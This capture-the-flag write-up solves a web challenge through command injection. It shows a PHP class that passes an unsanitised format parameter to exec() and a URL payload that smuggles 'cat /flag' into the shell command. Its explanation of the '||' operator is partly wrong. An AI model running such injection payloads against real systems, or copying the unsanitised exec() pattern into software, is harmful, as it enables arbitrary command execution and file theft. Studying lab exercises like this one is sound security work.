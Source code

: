 # TimeKORP Challenge

## Description:
Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

### Key Point:
The vulnerability exploited in this challenge is **command line injection**.

---

## Solution:

The vulnerability lies in the `/models/TimeModel.php` file. The code for constructing and executing the command is as follows:

```php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res = isset($time) ? $time : '?';
        return $res;
    }
}
'''

you can see that it execute the command "$this->command" using "$time = exec($this->command);"
directly without sanatizing it.
We, then, can see the vulnabiltiy here where we can use command injection.

In the url of the problem which something like this:
http://94.237.54.201:30280/?format=%H:%M:%S

we change it to:
http://94.237.54.201:30280/?format="';cat /flag' ||'

and then boom the flag got display in the web page.

Explain: "';cat /flag ||'
'; :is a command seperator in shell scripting it si use so that the 'date' command has ended here.

cat /flag :self-explanatory. It is use for displaying the flag.

|| :is a logical OR operator in shell scripting. This part is used to ensure that, 
even if something goes wrong (e.g., /flag doesn’t exist, or there's a permission issue), 
the rest of the command doesn’t break, and execution continues smoothly. 

and that is it for me.
